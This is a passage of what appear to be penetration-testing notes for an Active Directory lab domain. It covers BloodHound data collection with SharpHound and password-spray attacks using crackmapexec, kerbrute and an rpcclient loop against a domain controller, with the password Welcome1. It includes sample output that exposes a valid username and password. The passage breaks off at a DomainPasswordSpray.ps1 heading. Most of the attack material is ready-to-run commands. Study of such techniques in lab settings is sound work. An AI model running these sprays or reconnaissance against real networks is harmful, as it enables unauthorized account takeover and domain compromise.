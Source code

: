 Now import the zip file in the GUI.

In this example i'have used the "**Find Shortest Path to Domain Admins**" built-in cypher query

![](https://remnote-user-data.s3.amazonaws.com/oPEL-6SWUTvf0ctayC_3q_93ar3POn9K3KtpGEHLoPXhL5x6XaTKm3F0MJDmxxrDD3LlXLYD9aP0HvrnGQD1HnEi-IQNE0Dnphox0K7Cvi0D7A56pivSekKYS8D6f9DF.png)

## SharpHunt


```bash
.\SharpHound.exe -c all --zipfilename sharphunt.zip
```

# Password Spray Attack  


## Linux

### Crackmapexec

the list  user format must be `DOMAIN\user`

```bash
sudo crackmapexec smb 172.16.5.5 -u filtered_users.txt  -p Welcome1 | grep +


# Exampf filtered response

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\sgage:Welcome

```

### Kerbrute  

This work only for kerberos account  

```bash
sudo kerbrute passwordspray -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 --safe -t 50 user.txt Welcome1

```

### Rpcclient  


```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

## Windows  

### DomainPasswordSpray.ps1

